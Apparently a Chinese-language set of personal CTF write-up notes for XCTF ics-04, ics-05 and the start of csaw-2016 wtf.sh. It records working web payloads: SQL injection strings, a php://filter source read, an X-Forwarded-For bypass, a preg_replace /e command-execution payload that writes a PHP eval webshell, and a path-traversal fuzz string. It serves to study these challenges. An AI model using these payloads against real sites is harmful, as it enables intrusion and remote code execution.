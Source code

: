 - ### XCTF 4th-CyberEarth  ics-04 

  ```工控云管理系统新添加的登录和注册页面存在漏洞，请找出flag。```
  找到忘记密码界面,丢到bp里爆用户名,得到俩很可疑的账号

  - 'or''='    

  - admin'or''='

   (admin是我刚刚注册的)
  很明显是注入了, 看看有没有注入导致的万能密码. 加入bp爆一下密码,全部失败.
  找了下wp, 结果是在忘记密码输入用户名的界面存在sqli注入.  gg

8. ### XCTF 4th-CyberEarth  ics-05
	
	1. 进到index.php里面, 发现page参数可更改,而且会显示在页面中,看题意跟跟xss应该没关系
	看wp说是*php伪协议*,即 php://   ,可用filter查看源码
	/index.php?page=php://filter/read=convert.base64-encode/resource=
	通读源码,大概意思:当x-forwarded-for为环回地址127时,进入管理页面.果断改包绕过
	好了,然后是一个preg_replace正则替换, 想到/e 可以rce, 那么开动:
	
	可以去看看php里的正则用法), 把其当做php执行, 我们就在dst 参数里放要执行的PHP 代码```
	
	2. 有了rce, 下一步是找flag, 写入一句话, 菜刀连接之后,看到根目录/下面有个奇怪的文件夹,查看源码,稳健
	3. payload***
	  - 
	- 查看源码	
	
	- ```php+HTML
	  /index.php?page=php://filter/read=convert.base64-encode/resource=index.php
	  ```
	
	- X-Forwarded-For:127.0.0.1
	
	-	/index.php?pat=/uncle/e&rep=phpinfo()&sub=uncleabc 
		
	-	写入一句话	
		
	```php
		/index.php?pat=/uncle/e&rep=fputs(fopen(index.php,w),%3C?php%20eval($_POST%5B%5Bpass%5D%5D)?%3E);0&sub=uncleabc
		```
		
		其实可以不用写入一句话的, 使用system("ls")发现可疑文件夹，之后cd进去ls，发现flag.php,cat读取即可。
		
		```
		rep=system("cd+s3chahahaDir/flag+%26%26+ls") 
		```
		
		注意一下这里的引号里要加上加号，不能直接空格代替。还有&&要用url编码代替，是%26.


​		
9.  ### csaw-ctf-2016-quals-wtf.sh-150 

	可以看到响应里有关键词* bash *, 那么猜测是跟linux命令或者路径有关联.
	先分析,一共分析出几个挖掘点:	
	
	1. /profile.wtf?user= 
	
	2. /post.wtf?post=
	
	3. /reply.wtf?post= 首先排除,因为没有地方用来回显内容
		丢进bp里fuzzing一波 /profile.wtf?user=/../../../../../%2a	
  ```